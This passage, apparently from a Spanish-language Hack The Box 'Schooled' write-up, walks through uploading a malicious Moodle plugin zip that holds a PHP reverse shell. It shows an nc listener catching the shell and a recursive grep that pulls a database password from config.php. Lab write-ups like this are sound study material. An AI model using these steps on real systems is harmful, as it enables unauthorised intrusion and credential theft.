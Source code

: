 ![Untitled](Schooled%20f583836a391b4f8391dfd4d4effc776e/Untitled%2017.png)

Click en Continue:

![Untitled](Schooled%20f583836a391b4f8391dfd4d4effc776e/Untitled%2018.png)

Y click de nuevo en Continue y en la ruta:

`http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php`

Tenemos una webShell:

![Untitled](Schooled%20f583836a391b4f8391dfd4d4effc776e/Untitled%2019.png)

# **GANANDO ACCESO**

Despues de probar mil formas de obtener una shell, solo obtengo acceso al sistema, creando mi propio rce.zip pero en vez de una web shell en el archivo block_rce.php , meto ahi una reverse shell en php. Esta por defecto en kali linux `/usr/share/webshells/php/php-reverse-shell.php`

Luego comprimo el contenido de la carpeta:

`❯ zip rce.zip rce/lang/en/block_rce.php rce/version.php`

Lo subo de la misma forma anterior, y al abrir el archivo block_rce.php lo interpreta y me otorga una reverse shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.234] 14194
FreeBSD Schooled 13.0-BETA3 FreeBSD 13.0-BETA3 #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021     root@releng1.nyi.freebsd.org:/usr/obj/usr/src/amd64.amd64/sys/GENERIC  amd64
 7:31PM  up 25 mins, 0 users, load averages: 0.67, 0.50, 0.43
USER       TTY      FROM    LOGIN@  IDLE WHAT
uid=80(www) gid=80(www) groups=80(www)
sh: can't access tty; job control turned off
```

Buscando informacion sobre moodle, encuentro que guarda contraseñas en archivos de configuracion como este: [link](https://github.com/moodle/moodle/blob/master/config-dist.php)

Voy a grepear a ver si encuentra algo con esta informacion:

```bash
$ find . -type f -exec grep -i -I "dbpass" {} /dev/null \;
<data>
./usr/local/www/apache24/data/moodle/config.php:$CFG->dbpass    = 'PlaybookMaster2020';
<data>

$ cat /usr/local/www/apache24/data/moodle/config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
```